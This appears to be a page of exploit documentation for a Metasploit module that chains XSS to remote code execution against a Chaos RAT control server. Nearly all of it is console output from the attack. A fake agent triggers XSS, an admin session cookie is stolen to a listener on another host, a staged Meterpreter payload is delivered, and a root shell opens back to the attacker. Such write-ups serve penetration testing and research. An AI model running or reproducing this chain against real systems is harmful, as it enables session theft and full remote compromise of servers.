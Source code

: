 ```
[*] Attempting exploitation through Agent
[*] Server address: 172.17.0.2
[*] Server port: 8080
[*] Server JWT Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3NDQ4MDY5MzgsInVzZXIiOiJkZWZhdWx0In0.3zlOZ8RI_YdDqEgNbt20oL7R30Ry5JgwJVCEqx0WSUA
[*] Fake MAC for agent: f8:16:5a:23:5b:74
[*] Listening for XSS response on: http://111.111.10.147:8888/
[*] Performing Callback Checkin
[*] WebSocket connecting to receive commands
[*] Performing Callback Checkin
```

Log in to the website, click `Acion`, `Remote Shell` on the
fake agent we've added to the list. Now type anything into
the input box and click `Send`.

```
[+] Received agent command 'id', sending XSS in return
[*] Received GET request.
[+] Received cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
[+] Detected Agents
Live Agents
===========

 IP         OS       Username    Hostname  MAC
 --         --       --------    --------  ---
 111.111.1  Windows  Administra  DC01      86:89:42:d1:dc
 1.147               tor (Admin            :a7
                     istrator)
 111.111.1  Windows  Administra  DC01      f8:16:5a:23:5b
 1.147               tor (Admin            :74
                     istrator)

[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (111.111.10.147:4444 -> 172.17.0.2:41290) at 2024-04-17 15:19:22 +0000

msf6 exploit(linux/http/chaos_rat_xss_to_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 5.19.0-43-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
